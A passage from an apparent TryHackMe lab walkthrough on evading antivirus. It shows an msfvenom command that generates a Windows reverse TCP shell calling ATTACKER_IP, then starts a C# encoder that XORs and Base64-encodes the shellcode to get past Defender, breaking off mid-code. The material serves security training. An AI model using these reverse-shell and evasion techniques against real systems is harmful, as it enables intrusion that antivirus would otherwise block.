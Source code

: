 Once again, if we upload the resulting shell to the THM Antivirus Check! page at `http://10.10.185.194/`, it will still be flagged by the AV. The reason is still that AV vendors have invested lots of time into ensuring simple msfvenom payloads are detected.

### Creating a Custom Payload

The best way to overcome this is to use our own custom encoding schemes so that the AV doesn't know what to do to analyze our payload. Notice you don't have  to do anything too complex, as long as it is confusing enough for the AV to analyze. For this task, we will take a simple reverse shell  generated by msfvenom and use a combination of XOR and Base64 to bypass  Defender.

Let's start by generating a reverse shell with msfvenom in CSharp format:

- **Generate a CSharp shellcode Format**

```shell-session
user@AttackBox$ msfvenom LHOST=ATTACKER_IP LPORT=443 -p windows/x64/shell_reverse_tcp -f csharp
```

##### The Encoder

Before building our actual payload, we will create a program that  will take the shellcode generated by msfvenom and encode it in any way  we like. In this case, we will be XORing the payload with a custom key  first and then encoding it using base64. Here's the complete code for  the encoder (you can also find this code in your Windows machine at  C:\Tools\CS Files\Encryptor.cs):

<details open=""><summary><u><i>Full Payload Code (Click to read)</i><br>
</u>
</summary>
<pre style="font-size:14px" class=" language-csharp" tabindex="0"><code class=" language-csharp">
<span class="token keyword">using</span> <span class="token namespace">System</span><span class="token punctuation">;</span>
<span class="token keyword">using</span> <span class="token namespace">System<span class="token punctuation">.</span>Collections<span class="token punctuation">.</span>Generic</span><span class="token punctuation">;</span>
<span class="token keyword">using</span> <span class="token namespace">System<span class="token punctuation">.</span>Linq</span><span class="token punctuation">;</span>
<span class="token keyword">using</span> <span class="token namespace">System<span class="token punctuation">.</span>Text</span><span class="token punctuation">;</span>
<span class="token keyword">using</span> <span class="token namespace">System<span class="token punctuation">.</span>Threading<span class="token punctuation">.</span>Tasks</span><span class="token punctuation">;</span>

<span class="token keyword">namespace</span> <span class="token namespace">Encrypter</span>
<span class="token punctuation">{</span>
    <span class="token keyword">internal</span> <span class="token keyword">class</span> <span class="token class-name">Program</span>
    <span class="token punctuation">{</span>
        <span class="token keyword">private</span> <span class="token keyword">static</span> <span class="token return-type class-name"><span class="token keyword">byte</span><span class="token punctuation">[</span><span class="token punctuation">]</span></span> <span class="token function">xor</span><span class="token punctuation">(</span><span class="token class-name"><span class="token keyword">byte</span><span class="token punctuation">[</span><span class="token punctuation">]</span></span> shell<span class="token punctuation">,</span> <span class="token class-name"><span class="token keyword">byte</span><span class="token punctuation">[</span><span class="token punctuation">]</span></span> KeyBytes<span class="token punctuation">)</span>
        <span class="token punctuation">{</span>
            <span class="token keyword">for</span> <span class="token punctuation">(</span><span class="token class-name"><span class="token keyword">int</span></span> i <span class="token operator">=</span> <span class="token number">0</span><span class="token punctuation">;</span> i <span class="token operator">&lt;</span> shell<span class="token punctuation">.</span>Length<span class="token punctuation">;</span> i<span class="token operator">++</span><span class="token punctuation">)</span>
            <span class="token punctuation">{</span>
                shell<span class="token punctuation">[</span>i<span class="token punctuation">]</span> <span class="token operator">^=</span> KeyBytes<span class="token punctuation">[</span>i <span class="token operator">%</span> KeyBytes<span class="token punctuation">.</span>Length<span class="token punctuation">]</span><span class="token punctuation">;</span>